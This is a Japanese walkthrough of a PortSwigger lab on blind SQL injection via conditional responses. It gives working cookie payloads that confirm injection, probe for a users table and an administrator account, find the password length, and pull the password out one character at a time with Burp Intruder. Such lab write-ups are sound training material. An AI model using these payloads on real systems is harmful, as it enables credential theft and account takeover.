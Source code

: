 # 条件付き応答を使用したブラインド SQL インジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses  
このラボにはブラインド SQL インジェクションの脆弱性が含まれています。アプリケーションは分析に追跡 Cookie を使用し、送信された Cookie の値を含む SQL クエリを実行します。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. ホームページに 2 回アクセスします
- 4. Cookie に TrackingId がある GET / リクエストを send to repeater します
- 5. TrackingId の値の後に　真になる SQL インジェクションを付加します

```
TrackingId=gVVTXw3VzKSixX7U' AND '1'='1
```

応答に Welcome の文字が含まれていることを確認します

- 6.TrackingId の値の後に　偽になる SQL インジェクションを付加します

```
TrackingId=gVVTXw3VzKSixX7U' AND '1'='2
```

応答に Welcome の文字が含まれていないことを確認します

- 7. TrackingId の値の後にテーブル存在確認クエリを付加します

```
TrackingId=gVVTXw3VzKSixX7U' AND (SELECT 'a' FROM users LIMIT 1)='a
```

- 8.  TrackingId の値の後にユーザーの存在確認クエリを付加します

```
TrackingId=gVVTXw3VzKSixX7U' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

- 9. 次はユーザーパスワードの桁数を確認します

```
TrackingId=gVVTXw3VzKSixX7U' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

> 20 で Welcome の文字がなくなり、パスワードが 20 桁であることがわかります

- 10. TrackingId の値の後にパスワード探索用クエリを付加して、send to intruder します

```
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

- 11. パスワード探索用にパラメータ化します

```
Cookie: TrackingId=gVVTXw3VzKSixX7U' AND (SELECT SUBSTRING(password,11,1) FROM users WHERE username='administrator')='§a§;
```

- 12. Grep Match の設定に Welcome を登録します
      ![2](https://github.com/pea-sys/web-security-experiments/assets/49807271/5962d6b7-558a-41ab-a42f-ebc4af0a1509)

- 13. 20 回 20 桁分の攻撃をしかけます
      ![3](https://github.com/pea-sys/web-security-experiments/assets/49807271/528d7a29-d22f-4f90-bf80-220792b6ad63)

- 14. パスワードが判明後、ログインするとラボをクリア出来ます

